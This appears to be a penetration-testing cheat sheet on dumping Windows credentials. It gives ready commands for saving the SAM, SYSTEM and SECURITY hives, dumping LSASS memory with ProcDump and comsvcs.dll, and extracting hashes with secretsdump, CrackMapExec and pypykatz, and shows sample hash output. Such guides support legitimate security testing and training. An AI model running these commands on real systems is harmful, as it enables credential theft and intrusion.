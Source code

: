 # Windows

## SAM

You need to have administrator privileges to access the SAM Registry hive.

### Registry Hives

| Registry Hive | Description |
|-|-|
| `hklm\sam` | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system` | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

### Dumping the SAM Registry Hive

Dump the SAM Registry hive using the `reg` command and transfer the files to your attacker machine.:

```batch
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

Use `impacket-secretsdump` to extract the hashes from the SAM Registry hive:

```bash
impacket-secretsdump -sam sam -system system -security security LOCAL
```

### Dumping SAM Remotely

Dump it using `CrackMapExec`:

```bash title="Dump SAM with CrackMapExec"
cme smb <ip> -u <username> -p <password> --sam
```

:::tip

The output format is `username:RID:LMHASH:NTHASH`.

:::

### Cracking the Hashes

Navigate to the [SMB Commands Cheatsheet](/commands-cheatsheet/smb#brute-forcing-credentials).

## LSASS

LSASS (Local Security Authority Subsystem Service) in Windows is a process responsible for enforcing security policies, managing user authentication, and auditing system events.

### Dumping LSASS Memory

LSASS memory dumps can pose serious security risks as they may contain sensitive information. This can include plaintext passwords, hash values, and other authentication details used in the system.

#### Task Manager

The easiest way to dump LSASS memory is to use Task Manager. You'll need UI access to the machine to do this.

1. Open Task Manager
2. Find the `Local Security Authority Process`
3. Right-click on the process and select `Create dump file`

![Task Manager](taskmanagerdump.png)

#### ProcDump

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) is a command-line utility that can be used to create memory dumps of processes.

:::caution ProcDump

You'll need to download ProcDump on the target machine to use it.

:::

```batch title="Using ProcDump to Dump LSASS Memory"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

You can also avoid reading the `lsass.exe` process by dumping a cloned process instead.

```batch title="Using ProcDump to Dump LSASS Memory (Cloned Process)"
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

#### comsvcs.dll

```batch title="Using comsvcs.dll to Dump LSASS Memory"
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

You can also use the PowerShell variant of this command.

```powershell title="Using comsvcs.dll to Dump LSASS Memory (PowerShell)"
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

### Extracting Credentials

#### Pypykatz

This is the Linux version of [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
pypykatz lsa minidump <lsass dump file>
```

```bash title="Pypykatz Example"
pypykatz lsa minidump lsass.dmp

...SNIP...
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
...SNIP...
```
